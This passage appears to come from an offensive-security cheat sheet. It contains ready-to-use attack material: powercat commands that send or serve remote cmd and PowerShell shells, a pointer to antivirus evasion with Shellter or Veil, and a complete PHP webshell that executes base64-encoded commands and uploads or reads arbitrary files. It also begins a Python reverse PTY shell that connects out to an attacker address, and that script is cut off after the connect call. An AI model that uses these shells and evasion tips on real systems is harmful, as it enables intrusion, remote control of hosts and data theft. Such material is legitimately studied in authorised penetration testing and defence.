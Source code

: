 Send a cmd Shell:
    powercat -c 10.1.1.1 -p 443 -e cmd

Serve a shell which executes powershell commands:
    powercat -l -p 443 -ep



## note : bypass AV with Shellter or Veil

## Some webshells


````php
<?php 

function process() {
    if(isset($_POST['b64_cmd'])) {
        $cmd = base64_decode($_POST['b64_cmd']);
        system($cmd . ' 2>&1');
        return;
    }

    if(isset($_POST['b64_upload']) && isset($_POST['b64_filename']) ) {
        $file_content = base64_decode($_POST['b64_upload']);
        $file_name = base64_decode($_POST['b64_filename']);
        file_put_contents($file_name, $file_content);
        return;
    }

    if(isset($_POST['b64_filename']) ) {
        $file_name = base64_decode($_POST['b64_filename']);
        $file_content = file_get_contents($file_name);
        echo base64_encode($file_content);
        return;
    }
}

process();
?>
````


````python
#!/usr/bin/python2
"""
Reverse Connect TCP PTY Shell - v1.0
infodox - insecurety.net (2013)

Gives a reverse connect PTY over TCP.

For an excellent listener use the following socat command:
socat file:`tty`,echo=0,raw tcp4-listen:PORT

Or use the included tcp_pty_shell_handler.py
"""
import os
import pty
import socket

lhost = "10.10.14.2" # XXX: CHANGEME
lport = 9003 # XXX: CHANGEME

def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
````